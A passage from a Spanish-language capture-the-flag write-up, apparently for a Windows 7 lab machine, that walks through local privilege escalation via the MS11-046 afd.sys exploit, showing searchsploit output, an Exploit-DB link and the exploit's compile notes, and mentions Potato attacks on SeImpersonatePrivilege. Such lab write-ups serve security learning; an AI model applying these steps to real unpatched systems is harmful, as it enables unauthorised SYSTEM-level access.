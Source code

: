 Ok, tenemos el privilegio **SeImpersonatePrivilege** y vemos que el SO es **WIndows 7 6.1.7600**, además de que el dueño es **babis**. Desde aquí, nos surgen al menos 2 formas de poder escalar privilegios, la primera usando un Exploit para la versión del Windows, la segunda utilizando Juicy o Rotten Potato para abusar del privilegio **SeImpersonatePrivilege** (esta opción queda para que la pruebes).

Vamos a usar ambas y luego investigaremos como ganar acceso con **Metasploit Framework**. Pero, primero vamos a hacerlo con la primera opción y las demás, las dejamos para la sección **Otras Formas**.

<h2 id="Exploit">Buscando, Configurando y Activando un Exploit para Windows 7</h2>

Buscando por internet, nos aparece uno en particular que es el **MS11-046** que es un **Local Privilege Escalation** y que justamente nos serviría en estos momentos. 

Puedes verlo en el siguiente link: 
* <a href="https://www.exploit-db.com/exploits/40564" target="_blank">Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)</a>

Vamos a buscarlo con la herramienta **Searchsploit**:
```bash
searchsploit MS11-046                  
----------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                             |  Path
----------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)                                  | windows_x86/local/40564.c
Microsoft Windows - 'afd.sys' Local Kernel (PoC) (MS11-046)                                                | windows/dos/18755.c
----------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
----------------------------------------------------------------------------------------------------------- ---------------------------------
 Paper Title                                                                                               |  Path
----------------------------------------------------------------------------------------------------------- ---------------------------------
MS11-046 - Dissecting a 0day                                                                               | docs/english/18712-ms11-046---di
----------------------------------------------------------------------------------------------------------- ---------------------------------
```
Justamente lo tenemos, vamos a copiarlo y a analizarlo para saber cómo usarlo.

<br>

<h3 id="PruebaExp">Probando Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)</h3>

Gracias al creador del Exploit, nos deja una pequeña explicación para convertir el Exploit en un ejecutable **.exe**:
```bash
Exploit notes:
   Privileged shell execution:
     - the SYSTEM shell will spawn within the invoking shell/process
   Exploit compiling (Kali GNU/Linux Rolling 64-bit):
     - # i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
   Exploit prerequisites:
     - low privilege access to the target OS
     - target OS not patched (KB2503665, or any other related
       patch, if applicable, not installed - check "Related security
       vulnerabilities/patches")
   Exploit test notes:
     - let the target OS boot properly (if applicable)
```
